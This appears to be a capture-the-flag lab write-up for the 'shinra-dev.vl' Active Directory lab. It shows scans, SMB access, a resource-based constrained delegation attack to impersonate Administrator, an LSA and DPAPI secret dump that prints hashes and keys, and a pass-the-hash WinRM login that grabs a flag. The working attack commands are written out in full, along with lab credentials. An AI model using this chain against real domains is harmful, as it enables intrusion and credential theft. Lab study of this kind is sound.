



The initial UDP scan shows the following:

```bash
└─$ nmap -F -sU 172.16.11.50
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-20 14:46 +0100
Nmap scan report for 172.16.11.50
Host is up (0.0093s latency).
Not shown: 99 open|filtered udp ports (no-response)
PORT    STATE SERVICE
137/udp open  netbios-ns

Nmap done: 1 IP address (1 host up) scanned in 2.39 seconds

```

Where instead the TCP scan shows much more informations:

```bash
PORT      STATE SERVICE     REASON         VERSION
135/tcp   open  msrpc       syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn syn-ack ttl 64 Microsoft Windows netbios-ssn
49688/tcp open  msrpc       syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/20%OT=135%CT=%CU=%PV=Y%G=N%TM=69BD51B4%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=104%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=FD%GCD=1%ISR=100%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

```

# Samba

The user I obtained seems not able to see anything in the custom folder?

```bash
└─$ impacket-smbclient shinra-dev.vl/william.davis:'Eniwy7j5KH+oze'@file01.shinra-dev.vl
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
ADMIN$
C$
IPC$
Shinra
# use Shinra
# ls
drw-rw-rw-          0  Mon Dec 26 19:07:46 2022 .
drw-rw-rw-          0  Mon Dec 26 19:07:46 2022 ..
-rw-rw-rw-        160  Mon Dec 26 19:07:46 2022 info.txt
# cat info.txt
 ,_     _
 |\\_,-~/
 / _  _ |    ,--.
(  @  @ )   / ,-'
 \  _T_/-._( (
 /         `. \
|         _  \ |
 \ \ ,  /      |
  || |-_\__   /
 ((_/`(____,-'
# 


```

# AD

Now with the credentials obtained by the GMSA I am able to pull out a RBCD on behalf of the File System server:



And now I have the service ticket:

```bash
─$ impacket-getST -dc-ip 172.16.11.101 -spn 'cifs/file01.shinra-dev.vl' -impersonate 'Administrator'  -hashes :3f1df227d55c8d40c3997bc7e72eb491 'shinra-dev.vl/mFileSvc$'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_file01.shinra-dev.vl@SHINRA-DEV.VL.ccache
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Shinra]
└─$ export KRB5CCNAME=/home/user/Downloads/Shinra/Administrator@cifs_file01.shinra-dev.vl@SHINRA-DEV.VL.ccache 

```

And now I can dump the data from it:

```bash
─$ netexec smb file01.shinra-dev.vl -u Administrator --use-kcache --lsa --dpapi
SMB         file01.shinra-dev.vl 445    FILE01           [*] Windows 10 / Server 2019 Build 17763 x64 (name:FILE01) (domain:shinra-dev.vl) (signing:False) (SMBv1:None)
SMB         file01.shinra-dev.vl 445    FILE01           [+] shinra-dev.vl\Administrator from ccache (Pwn3d!)
SMB         file01.shinra-dev.vl 445    FILE01           [+] Dumping LSA secrets
SMB         file01.shinra-dev.vl 445    FILE01           SHINRA-DEV.VL/Administrator:$DCC2$10240#Administrator#354886cd3559a0d6bcbb2164d7a07cb4: (2025-06-02 08:38:10)
SMB         file01.shinra-dev.vl 445    FILE01           SHINRA-DEV\FILE01$:plain_password_hex:bfdd1feacd4d6b58e5a8c576b5fddf434e49cb525a531b4cdff370680590d5c18ac50a485bf9e8591398d9b6a1453ffa1b448b1e64d7172b12e8386feeea0150026e5d6de117a189ad8c3d20ab7ae0b58c010669816453c565f9010eef7bfac5d9dbf18a24c5417bb3a92d3f24f6255d6ef1941ced6fa3ff8e39845f23e0c2c8bed99c1dda2d0bf73651e6a911ade369215dd8135cc7bb88981e4043788db0fd546cb83da34fd98fdbe27e61b718e4f9f185b584db17f98385f9972572e421aeffffee286e2d0781ce6a4fb39b5394a983d9195f6f510efea8723c194297647e78bac0c1ee83a58080cc5cb5d19f0da8
SMB         file01.shinra-dev.vl 445    FILE01           SHINRA-DEV\FILE01$:aad3b435b51404eeaad3b435b51404ee:37bf73dcb8f7bf7eebe858e7f261ccb8:::
SMB         file01.shinra-dev.vl 445    FILE01           dpapi_machinekey:0xda13c88bb11955f0b785c6dc221f8054346a1421
dpapi_userkey:0x7a5a755ad6a06f2436e0145c1f1c06e66443ce36
SMB         file01.shinra-dev.vl 445    FILE01           [+] Dumped 4 LSA secrets to /home/user/.nxc/logs/lsa/file01.shinra-dev.vl_None_2026-03-25_153238.secrets and /home/user/.nxc/logs/lsa/file01.shinra-dev.vl_None_2026-03-25_153238.cached
SMB         file01.shinra-dev.vl 445    FILE01           [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         file01.shinra-dev.vl 445    FILE01           [+] Got 8 decrypted masterkeys. Looting secrets...

```

And get a flag:

```bash
└─$ evil-winrm-py -i FILE01.shinra-dev.vl -u Administrator -H cf1811c2186951895633ae3f8b868b68
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to 'FILE01.shinra-dev.vl:5985' as 'Administrator'
evil-winrm-py PS C:\Users\Administrator\Documents> cd ..
evil-winrm-py PS C:\Users\Administrator> cd Desktop
evil-winrm-py PS C:\Users\Administrator\Desktop> cat flag.txt
SHINRA{6f523a2184e004f88e041d8557ce459a}
evil-winrm-py PS C:\Users\Administrator\Desktop>

```

Now except this I don't see any custom share not data I don't  control anymore:  


# Pivoting around

Now this computer can do whatever he wants like has GenericWrite over the DC:  


Or over most of the users but not all of the sensitive DA ones, I will move on to the DC page.

&nbsp;